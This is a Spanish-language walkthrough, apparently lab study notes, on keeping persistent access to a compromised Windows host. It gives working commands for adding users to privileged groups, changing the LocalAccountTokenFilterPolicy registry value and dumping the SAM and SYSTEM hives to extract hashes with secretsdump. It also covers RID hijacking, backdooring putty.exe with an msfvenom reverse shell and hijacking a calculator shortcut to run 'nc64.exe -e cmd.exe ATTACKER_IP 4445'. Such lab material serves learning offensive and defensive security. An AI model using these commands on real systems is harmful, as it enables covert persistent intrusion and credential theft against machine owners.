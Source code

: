 # Introducción

Despues de conseguir meternos dentro de la red interna de un target, tenemos que estar seguros de no peder acceso antes de conseguir lo que queremos. Entablar una persistencia es una de las primeras cosas que los atacantes deben saber cuando ganas acceso en la red.

En términos simples, la persistencia se refiere a cear alternativas para ganar acceso al host sin necesidad de volver a la fase de explotación de nuevo.

# Manipulación con pocos privilegios

Teniendo las credenciales del administrador es muy simple tener persistencia en la máquina. Sin embargo esto no hace que el blue team no te detecte, pero podemos manipular usuarios desprivilegiados, cosa que los administradores no suelen monitorizar.

## Asignar miembros de usuario

Asumimos que ya hemos dumpeado las contraseñas y las hemos crackeado

Directamente nosotros nos movemos de un usuario desprivilegiado a privilegios de administrador metiendolo al grupo de Administradores

```
net localgroup administrator usuario /add
```

Dandonos acceso por RDP o otro tipo de servicio.

Esto la verdad que es bastante sospechoso, podemos usar otros grupos como "operadores de backup". Este grupo no tiene permisos de administrador pero puede leer/escribir registros de código del sistema. 

```
net localgroup "backup operators" usuario2 /add
```

Como usuario desprivilegiado, no podemos hacer RDP o WinRM si no lo añadimos a los usuarios de "RDP" 

```
net localgroup "Remote Management Userss" usuario3 /add
```

Si nosotros queremos conectarnos desde nuestra máquina atacante y estamos en el grupo anteriormente dicho, no tenemos acceso a todos los archivos pero podemos hacer cosas chulas

```
vil-winrm -i 10.10.127.131 -u thmuser1 -p Password321

*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators               Alias            S-1-5-32-551 Group used for deny only
BUILTIN\Remote Management Users        Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                   Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
```

Si queremos dar privilegios de administrador a un usuario podemos cambiar registros

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Una vez que tenemos ready la backdoor podemos entablar conexiones con winrmm y mirar usuarios o grupos 

```
evil-winrm -i ip -u usuario -p contraseña
```

Podemos hacer backup del archivo SYSTEM y descargarlo

```
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!
```

También podemos dumpear hashes de contraseñas con "secretsdunmp.py" 

```
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```

## Privilegios especiales y Descriptores de seguridad

Podría dar el mismo resultado en vez de meter a alguien en el grupo modificar los usuario del mismo.

![image](https://github.com/user-attachments/assets/4fd33a70-00f1-4f12-b9cb-121d1fa22f15)

## RID Hijacking

Otro metodo de ganar privilegios de administrador

Cuando creamos un usuario se crea un RID asignado al mismo. Es simplemente un numero identificativo que reperesnta al usuario. CUando se loggea se coge el RID y se asocia al registro. 

Los administradores por defecto tienen asignado un RID = 500 y los usuarios regulares tienen RID >= 1000

```
wmic useraccount get name,sid

Name                SID
Administrator       S-1-5-21-1966530601-3185510712-10604624-500
DefaultAccount      S-1-5-21-1966530601-3185510712-10604624-503
Guest               S-1-5-21-1966530601-3185510712-10604624-501
thmuser1            S-1-5-21-1966530601-3185510712-10604624-1008
thmuser2            S-1-5-21-1966530601-3185510712-10604624-1009
thmuser3            S-1-5-21-1966530601-3185510712-10604624-1010
```

Deberemos acceder al SAM usando "Regedit"! es es un lugar restringido solo para cuentas de sistema como el administrador tenemos en las parrot C:\tools\pstools

```
PsExec64.exe -i -s regedit
```

Desde Regedit, podemos irnos a HKLM\SAM\SAM\Domains\Account\Users\ donde estan las key de cada usuario. Si quermeos modificar el usuario3 por ejemplo, deberemos buscarle el RID en hexadecimal (1010 = 0x3F2) correspondiente a un valor "F"

![image](https://github.com/user-attachments/assets/b498adc9-6a69-445d-8b12-7bf4cc852d73)

Y lo cambiariamos por el de administrador (500 = 0x01F4)

![image](https://github.com/user-attachments/assets/b44a4f51-605a-4903-b997-f58315f937e2)

# ARCHIVOS BACKDOOR

Otro metodo para establecer persistnecia es meter un archivo que parezca normal. Y que este haciendo modificaciones como un backdoor.

## FICHEROS DE EJECUCION

SI buscar cualquier ejecutablea alrededor del escritorio, los cambios on muy grandes y se usa frecuentemente. Supon que nosotros utilizamos Putty. Si chequeamos las propiedades, podemos ver usualmente punto a punto.

Vamos a hacer un ejemplo de putty

```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

El resultado de puttyX.exe se ejecutara una revese_tcp con este metodo conseguimos persistencia.

## ACCESOS DIRECTOS ARHIVOS

SI no queremos alterar un ejecutable, podemos tambi´ne incrustar en un fichero, podemos cargar un script y hacer una puerta trasera como si fuera un programa normal.

Para esta tarea ejecutamos y checkeamos la calculadora que esta en el escritorio.

![image](https://github.com/user-attachments/assets/34831dc7-17ab-428d-bcd0-1ff92c0c2cbf)

Antes de hacer un hijacking al target crearemos un script simple de prower shell en C:\WIndows\System32

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Finalmente, necesitaremos cambiar la ruta. Y ahora automaticamente se habra echo 

![image](https://github.com/user-attachments/assets/2531711f-ab9c-403b-94ef-464982b74b64)

```
nc -lvp 4445
```

## Hijacking Asociaciones de archivos

# Abusar servicios


